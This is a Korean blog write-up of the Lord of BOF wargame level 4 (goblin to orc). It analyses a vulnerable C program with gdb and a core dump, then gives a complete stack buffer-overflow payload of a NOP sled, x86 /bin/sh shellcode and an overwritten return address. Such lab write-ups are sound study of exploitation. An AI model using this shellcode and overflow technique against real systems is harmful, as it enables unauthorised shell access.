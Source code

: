```yaml
---
title:  "[LOB] level 4: goblin >> orc "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-21 09:22:40

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 4

**goblin / hackers proof**

orc.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/146898654-b1ec6bd0-01b5-4871-a8a0-4bbeedfa821c.png)

buffer에 40바이트 크기 할당  
정수형 변수 i 가 있고  
인수의 개수를 파악하는 if문  
egghunter라고 적혀있는 for문
argvp[1][47]의 값이 \xbf 여야한다

for문에서 환경변수를 모두 초기화 하고 있기 때문에 환경변수는 이용하기 어려울 것 같다

스택을 상황을 gdb로 확인  
![image](https://user-images.githubusercontent.com/69203345/146899390-eea32eab-ce68-4f9b-a0e0-d3e88b9ccbbe.png)  
긴데..?

0x8048503 <main+3>: sub %esp, 44  
스택의 크기는 44바이트

0x80485b9 <main+185>: lea  %eax,[%ebp-40]  
여기서 buffer의 위치를 알수있다 

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]

높은주소

환경변수를 사용하지 못하면 그냥 buffer에 넣으면 된다
그러려면 buffer의 시작 주소를 알아야한다  
시작주소를 알기 위해서 core파일을 사용할 것이다  core파일이란 오류 발생시 발생한 상태를 그대로 유지시킨 파일을 말한다  
일부러 오류를 발생시켜서 buffer의 주소를 확인할것이다

>./orc \`python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"RET"'`  
형식에서 RET주소 마지막에 "\x??\x??\x??\xbf"로 끝나면 문제 없을것이다, 48번째 문자가 "\xbf"가 아니면 종료되기 때문에

따라서  
>./orc \`python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\xff\xff\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146903610-eeed1131-5185-4486-b6e5-79d49bd73fe0.png)

![image](https://user-images.githubusercontent.com/69203345/146903850-e1bd361d-fc70-421c-b5a8-5092258fb401.png)  
디버깅이 시작되면서 0xbfffffff in ?? 이라고 뜨는데
ret에 위 값이 들어갔고 이상한게 들어가서 뜨는거다

![image](https://user-images.githubusercontent.com/69203345/146904337-2d108f7b-952b-4b60-b316-96d850ad7d77.png)  
살펴보면  
0xbffffc50 에 넣어놓은 쉘코드가 보인다  
리턴주소를 0xbffffc50로 잡고 페이로드를 작성하면  

>./orc \`python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x50\xfc\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146904793-e4f4d80d-726c-44e7-bfd7-73a6ae9dd82f.png)

굳